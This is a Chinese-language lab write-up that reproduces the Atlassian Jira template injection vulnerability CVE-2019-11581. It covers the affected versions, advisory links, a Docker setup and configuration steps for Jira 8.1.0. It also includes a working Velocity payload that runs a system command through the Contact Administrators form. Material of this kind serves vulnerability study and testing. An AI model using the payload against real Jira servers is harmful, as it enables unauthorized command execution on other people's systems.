




Atlassian Jira 模板注入漏洞（CVE-2019-11581）¶
Atlassian Jira是企业广泛使用的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。在多个版本中发现了一个模板注入漏洞，攻击者可以利用该漏洞执行任意命令。
受影响版本包括：
- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x - 7.13.x（在7.6.14、7.13.5版本修复）
- 8.0.x - 8.2.x（在8.0.3、8.1.2、8.2.3版本修复）
参考链接：
- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw
环境搭建¶
执行如下命令启动Jira Server 8.1.0：
docker compose up -d
环境启动后，访问http://your-ip:8080进入安装向导：
- 切换到你偏好的语言
- 选择"将其设置为我"（第一个选项）
- 从Atlassian官方申请Jira Server测试许可证（不要选择Data Center或Addons）
- 完成安装过程
注意：在内存有限的机器上，安装可能会失败或需要较长时间。建议使用至少4GB内存的机器进行安装和测试。

在/secure/admin/AddSmtpMailServer!default.jspa添加SMTP邮件服务器：

在系统设置/secure/admin/ViewApplicationProperties.jspa中启用"联系管理员表单"：

创建一个示例项目以完成设置。
漏洞复现¶
PoC与CVE-2019-3396类似，可以使用以下payload：
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
你也可以选择：
- 运行
poc.py，或者 - 直接在
/secure/ContactAdministrators!default.jspa提交PoC


如果没有在smtpd中看到数据，可能是邮件队列阻塞，请在/secure/admin/MailQueueAdmin!default.jspa检查邮件队列：
